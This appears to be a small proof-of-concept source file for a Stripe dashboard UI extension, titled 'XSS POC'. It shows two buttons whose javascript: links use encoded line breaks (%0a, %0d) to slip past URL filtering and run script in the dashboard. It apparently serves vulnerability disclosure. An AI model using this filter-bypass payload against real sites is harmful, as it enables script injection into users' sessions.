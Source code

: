 # test.htmlimport { Box, ContextView, Inline, Link } from "@stripe/ui-extension-sdk/ui";
import type { ExtensionContextValue } from "@stripe/ui-extension-sdk/context";
import {Button} from '@stripe/ui-extension-sdk/ui';
import {Img} from '@stripe/ui-extension-sdk/ui'
import {Chip, ChipList} from '@stripe/ui-extension-sdk/ui';

import BrandIcon from "./brand_icon.svg";

/**
 * This is a view that is rendered in the Stripe dashboard's customer detail page.
 * In stripe-app.json, this view is configured with stripe.dashboard.customer.detail viewport.
 * You can add a new view by running "stripe apps add view" from the CLI.
 */

const App = ({ userContext, environment }: ExtensionContextValue) => {
  return (
    <ContextView
      title="XSS POC"
      brandColor="#F6F8FA" // replace this with your brand color
      brandIcon={BrandIcon} // replace this with your brand icon
    >
	  
	  <Button href="javascript://%0aalert(123)">
		XSS with %0a
	  </Button>
	  <Button href="javascript://%0dalert(document.domain)">
		XSS with %0d
	  </Button>
	  
    </ContextView>
  );
};

export default App;
